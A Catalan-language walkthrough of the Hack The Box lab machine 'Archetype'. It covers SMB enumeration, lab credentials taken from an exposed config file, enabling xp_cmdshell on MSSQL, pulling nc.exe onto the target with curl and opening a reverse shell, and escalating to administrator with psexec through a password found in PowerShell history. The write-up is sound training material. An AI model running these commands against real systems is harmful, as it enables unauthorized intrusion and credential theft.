

# Archetype

## Introducció

Primera caixa del _starting point_ de _hack the box_. Es tracta d'un servidor on a través d'un arxiu de configuració exposat al públic trobem accés a la base de dades. I a partir d'allà anem escalant privilegis dintre del sistema.

## Escaneig del sistema

```bash
$ nmap -sC -sV -v $ip
```

```bash
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-11T22:18:46
| Not valid after:  2051-06-11T22:18:46
| MD5:   d740 7caf fbc1 d6db c6e6 afd2 a452 b69a
|_SHA-1: 2df7 325d 8fa2 abee 116c 95ab 6530 b36d dde1 5380
|_ssl-date: 2021-06-11T22:22:30+00:00; +18m20s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h42m20s, deviation: 3h07m52s, median: 18m19s
| ms-sql-info:
|   10.10.10.27:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-11T15:22:24-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-06-11T22:22:21
|_  start_date: N/A
```

Del escaneig podem deduir que es tracta d'un servidor Windows. Te en funcionament una base de dades MsSQL i que accepta connexions pel port 445 amb el protocol _smb_ (lo de compartir carpetes entre ordinadors dintre una mateixa xarxa).

És interessant veure a quines carpetes compartides tenim accés a través del protocol _smb_ sense estar autentificats. Per llistar les carpetes compartides (_shares_) podem utilitzar _nmap_ juntament amb el seu motor de scripts (_NSE_). Per defecte ja ve instal·lat amb una gran varietat de scripts.

```bash
$ nmap -p445 --script=smb-enum* $ip
```

Amb aquesta comanda demanem a _nmap_ que executi tots els scripts que tingui d'enumeració sobre el protocol _smb_ contra el servidor.

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-sessions:
|   Users logged in
|_    ARCHETYPE\sql_svc since <unknown>
| smb-enum-shares:
|   account_used: guest
|   \\10.10.10.27\ADMIN$:
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.27\C$:
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.27\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.27\backups:
|     Type: STYPE_DISKTREE
|     Comment:
|     Anonymous access: READ
|_    Current user access: READ
```

Veiem que ha trobat un usuari: `ARCHETYPE\sql_svc`, que pel nom sembla que tingui a veure amb la base de dades. I també ha trobat quatre _shares_:

- ADMIN$ (No hi tenim accés)
- C$ (No hi tenim accés)
- IPC$ (És una _share_ especial més info aquí: https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/inter-process-communication-share-null-session)
- backups (Tenim accés de lectura)

## Backups _share_

Per accedir a l'única _share_ a la que tenim accés podem utilitzar _smbclient_:

```bash
$ smbclient -N //$ip/backups
```

Si tot va bé ens donara un _prompt_ amb el que interactuar. `ls` per llistar els elements dintre la _share_ i `get <nom del fitxer>` per a descarregar-lo.

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

​            10328063 blocks of size 4096. 8258770 blocks available

smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (3.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
smb: \>
```

Si busquem l'extensió del fitxer a google veiem per a que s'utilitza i amb que està relacionat.
`google -> DTSCONFIG file is a xml configuration file used to apply property values to SQL server integration Services (SSIS)....`

Al llegir els continguts del fitxer trobem aquesta línia amb un usuari i una contrasenya:

```xml
<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
```

- Usuari: `sql_svc`, que coincideix amb el que havíem trobat abans.
- Contrasenya: `M3g4c0rp123`.

Provem la combinació d'usuari i contrasenya per intentar entrar alguna altre _share_ protegida amb la següent comanda:

```bash
$ smbclient -U sql_svc //$ip/<share a probar>
```

Però no hi ha sort. La combinació d'usuari i contrasenya deu ser única de la base de dades.

## Base de dades MsSQL

La base de dades com hem vist del escaneig inicial és MsSQL i necessitem un client per connectar-nos-hi. Si estàs utilitzant _Kali Linux_ ja tens un executable en el sistema per connectar-te a aquest tipus de bases de dades: `impacket-mssclient`.

```bash
$ impacket-mssclient sql_svc@$ip
```

Donarà un error alhora d'autentificar, llegint la documentació trobem que la comanda compta amb una _flag_ per utilitzar un altre tipus d'autentificació.

```bash
$ impacket-mssqlclient sql_svc@$ip -windows-auth
```

Si tot ha sortit bé ara tindrem un _prompt_ tal que `SQL>` esperant que li escrivim. Cridem l'ajuda per veure que podem fer.

```
SQL> help
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

La comanda `xp_cmdshell` te molt bona pinta no ho negaré. Però al executar-la per veure si funciona ens retorna el següent:

```
SQL> xp_cmdshell whoami
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Amb la informació de l'error podem fer una buscada ràpida a google sobre com fer-ho funcionar. Si busquem `sp_configure enable xp_cmdshell` el primer resultat https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15, ens dona la solució:



Un cop executat tornem a provar i aquest cop sembla que obtenim resposta:

```
SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------------------
archetype\sql_svc
NULL
```

## Obtenir una consola

Hi ha moltes maneres diferents d'obtenir una consola un cop ja pots executar comandes en un sistema però les idees sempre són les mateixes:

- O obrim un port en la màquina per a que ens hi puguem connectar i ens presenti amb una consola (_bind shell_)
- O fem que es connecti a nosaltres i ens presenti la consola a través de l'execució (_reverse shell_).

S'acostuma a utilitzar la segona ja que si hi ha un firewall bloquejant les connexions és més probable que permeti connexions de dintre a fora que a l'enversa.

Per crear una _reverse shell_ d'una forma senzilla necessitarem tres coses:

- Saber la nostre IP (dintre de la VPN)
- Obrir un servidor que escoli connexions en el nostre ordinador
- Fer que la màquina objectiu es connecti a la nostre presentant una consola

### Saber la nostre IP

```bash
$ ip a
```

Donat que estem dintre de la _network_ de _hack the box_ utilitzarem la de la interfície `tun0`.

### Obrir un _listener_

Fàcil amb _netcat_:

```bash
$ nc -lvnp 9999
```

### Que la màquina objectiu es connecti a la nostre

Primer hem de passar-li el software per a que ho pugui fer (o utilitzar software que ja te la màquina i coneguis però no és el meu cas). Per això descarrego el binari per a Windows del _netcat_ (mateix programa que fem servir per escoltar `nc`) .

```bash
curl https://raw.githubusercontent.com/diegocr/netcat/master/nc.exe -o nc.exe
```

I un cop el tenim hem de fer-li arribar a la màquina objectiu, per això arranquem un servidor web (en el mateix directori on hem guardat la descarrega) des de on el podrà descarregar.

```bash
$ python3 -m http.server 8080
```

Ara tornem al _prompt_ de la base de dades i executem el següent per a descarregar-ho:

```bash
SQL> xp_cmdshell curl http://<la teva ip>:8080/nc.exe -o C:\Users\sql_svc\nc.exe
```

És important que especifiquem un directori on tinguem permisos d'escriptura, per això hem escollit la home de l'usuari amb el que tenim accés: `sql_svc`.

Ara ja podem para el servidor web amb `Ctrl-C` en la seva consola.

Només ens queda executar el _netcat_ en la màquina objectiu per a que ens truqui enviant-nos el regal de la terminal.

```
SQL> xp_cmdshell C:\Users\sql_svc\nc.exe <la teva ip> 9999 -e cmd.exe
```

Si tot ha sortit bé a la consola on tenies el _listener_ ara ha d'aparèixer una consola de Windows.

## Trobar la _flag_ d'usuari

Des de la nova consola de comandes de Windows només hem de navegar fins al _Desktop_ del nostre usuari,

```powershell
C:\Windows\System23> cd C:\Users\sql_svc\Desktop
```

i llegir el fitxer `user.txt`.

```power
C:\Users\sql_svc\Desktop> type user.txt
```

## Escalar privilegis

Ara mateix ens resulta impossible accedir al _Desktop_ de l'administrador per obtenir l'altre *flag* . La comanda

```powershell
C:\Users\sql_svc\Desktop> cd C:\Users\Adminsitrator\Desktop
```

ens retorna un error de permisos.

Per poder-hi accedir ens hem d'aprofitar d'errors de configuració del sistema, software amb permisos que no toquen, software des-actualitzat i/o errors de l'usuari (guardar contrasenyes en un fitxer de text pla per exemple).

No està de més comprovar els arxius que té l'usuari així com l'historial de comandes que ha executat. Per a comprovar-ho tot ràpid i de forma automatitzada hi ha eines com `winPEAS.exe` que automatitzen el procés de buscar errors de configuració o software amb permisos que no tindrien que tenir.

En aquest cas però amb una simple consulta al historial de comandes realitzades ja cantem quinto.

```powershell
C:\Users\sql_svc\Desktop> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

C:\Users\sql_svc\Desktop>
```

- Usuari: `administrator`
- Contrasenya: `MEGACORP_4dm1n!!`

## Connectar-se com administrador

Ja podem tancar les diferents consoles i connexions que hem anat obrint, només en necessitarem una.

Aquest cop utilitzarem el binari `impacket-psexec` per a obtenir una *reverse shell* gracies a que tenim accés a les *shares* (on col·locarem el binari) i que el podem executar comandes amb el "protocol" *psexec*. Aquesta eina automatitza el procés en aquest cas. Més informació aquí: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec .

```bash
$ impacket-psexec administrator@$ip
```

Amb sort ens obrirà una consola i només haurem de navegar fins al _Desktop_ del administrador i llegir l'arxiu `root.txt`.

